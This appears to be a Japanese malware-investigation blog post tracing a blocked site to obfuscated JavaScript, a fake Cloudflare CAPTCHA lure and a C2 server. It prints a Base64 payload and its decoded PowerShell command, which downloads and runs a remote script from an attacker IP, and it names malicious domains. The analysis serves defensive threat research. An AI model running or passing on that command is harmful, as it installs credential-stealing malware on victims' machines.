









# 閉鎖サイトからC2サーバー発見まで - 20260314

### **AIで翻訳されています。**

先月、プロバイダーにブロックされたサイトの調査依頼が来た。 
対象サイト「dkaksdaksortor[.]com」にアクセスしても、すでに閉鎖されていた。そのため、なぜこのサイトがブロックされたのかを突き止めるのが今回の目的だ。

サイトが閉鎖されていたので、まずWayback Machineでクローラーが記録を残していないか確認することにした。すると、「mvjfkakfkfkaiai[.]com」へのリダイレクトがあることに気づいた。このケースをまとめるのが約一ヶ月遅れてしまったせいか、今現在Wayback Machineではそのリダイレクトは確認できなくなっている。 
**今Wayback Machineでdkaksdaksortor[.]comを確認すると、403 Forbiddenエラーが返ってくる。** 
**これがリダイレクトが消えた理由だと思われる。調査当時サイトは閉鎖されており、Waybackはどこかのコードにリダイレクトを見つけていた。** 
**しかし今はサイトが403として復活しているため、リダイレクトする必要がなくなったのだろう。** 
**あくまでも自分なりの推測だが。**

mvjfkakfkfkaiai[.]comにアクセスすると、404エラーが返ってくる。

興味深い。サーバー自体は生きているのに、何が置かれているのか。 
勘でWayback Machineをもう一度確認してみると、URLのプレフィックス結果がいくつかヒットした。（今現在、.jsファイルの数はさらに増えている。）

当時確認した3つのファイルはこちら： 
・mvjfkakfkfkaiai[.]com/fasfttt.js 
・mvjfkakfkfkaiai[.]com/paoso.js 
・mvjfkakfkfkaiai[.]com/adasr.js 

これらにどんなコードが仕込まれているか確かめる時が来た。それぞれにアクセスし、クライアント側を確認した。 
今回のレポートではfasfttt.jsに絞って解説する。

かなり難読化されたコードだが、よく見るとハイライト部分にBase64らしき文字列が埋め込まれているのがわかる。 
デコードしてみると「https[:]//www[.]windowwashingexpert[.]com/lma.php」という文字列が出てきた。

一応、JavaScriptの難読化解除も試みたが、特定の文字列を取り出すための過剰なループ処理が続いているだけだった。コード内に「__sync_load」や「sessionStorage」といった手がかりがあったことから、外部PHPサイトの呼び出し以外にも、ホスト名やタイムスタンプといった情報を収集していた可能性が高い。

怪しいPHPウェブシェルが見つかったはいいが、次はどうする？JavaScriptの時点ですでに怪しさ全開だが、悪意あるものだと断言するにはまだ根拠が足りない。 
そこでBurpの出番だ。通信を傍受して何が引き出せるか試してみる。

**現時点ではこのリンクは404を返すが、調査当時はオンラインだったことがスクリーンショットのタイムスタンプからわかる。以下のスクリーンショットはすべて調査中に撮影したものだ。**

lma.phpのウェブシェルを確認したが、レスポンスのクライアント側には特に目立つものはなかった。ファイルの中で実際に何が動いているのかを確認するには、内部に潜り込む必要がある。少し考えた末、BurpのIntruder Attackを使ったスクリプトインジェクションを試してみることにした。 
よく使われるウェブシェルのペイロードリストを見つけてきて、祈りながら実行したところ……大当たりだった！

「page」のレスポンスサイズが気になる。（画像にはURLの末尾/lma.phpが写っていないが、攻撃対象はそのPHPファイルだ。） 
Repeaterに投げて何が返ってくるか見てみよう。

レスポンスにはBase64とHTMLが含まれていた！ 
Base64は後回しにして、まずこのHTMLページが何を表示しているのか確認しよう。

1枚目の画像にはCAPTCHA認証画面がある。「Verify you are human」というテキストとチェックボックスが決定的な証拠だ。ページ下部にはCloudflareの公式リンクも2つ掲載されている。これは明らかにCloudflareを装った偽CAPTCHAだ。

2枚目の画像からは、チェックボックスをクリックした後の動作が読み取れる。 
「異常なウェブトラフィックが検出されました」というエラーが表示され、「Win+R」を押してクリップボードにあるコマンドを貼り付けるよう3ステップで誘導される仕組みだ。 
画像下部にはクリック時にコマンドを自動でコピーするコードがあり、画像上部には変数copyCommandにBase64が代入されているのが確認できる。このBase64こそ、Burpの結果の一番上で見つけたものだ。 
デコードしてみよう。 
Base64：cG93ZXJzaGVsbCAtd2kgbWkgLUVQIEIgLWMgaWV4KGlybSAxOTMuMTExLjExNy4yMjYvVi5HUkUp 
デコード結果：powershell -wi mi -EP B -c iex(irm 193.111.117.226/V.GRE) 
分解してみると： 
・PowerShellを起動 
・-wi mi で最小化状態で実行（実質的に非表示） 
・-EP B で実行ポリシーをBypassに設定（セキュリティ制限を無効化） 
・iex(irm IP/ファイル) で対象IPからリモートスクリプトをダウンロードして即実行

これで、例の怪しいウェブシェルが確実に悪意あるものだと証明できた。 
また、ランダムな文字列というドメイン名の特徴から、dkaksdaksortor[.]comもmvjfkakfkfkaiai[.]comと同じように悪意あるJavaScriptコードを置くために使われていたと考えるのが自然だろう。

ただ、もっと深掘りできるはず。……できるよね？ 
本当に欲しかったのはHTMLではなく、PHPのコードそのものだった。 
そこでClaudeに相談したところ、BurpのRepeaterで別のリクエストを試してみることを提案された。正直なところ完全に棚ぼたで、そもそもそれを探していたわけでもなかったが、試してみると.....

最初の/pageリクエストに加え、APIキーとエンドポイントが手に入った。これが今回のC2サーバーだ：lamabamatypod[.]com 
そのページにアクセスすると、ログイン画面が現れた。

以上だ！ 
閉鎖されたサイトから始まり、偽CAPTCHAを使ったマルウェア（LummaStealer系の亜種と思われる）を発見し、最終的には脅威アクターのC2サーバーまで辿り着いた！ 
やったね！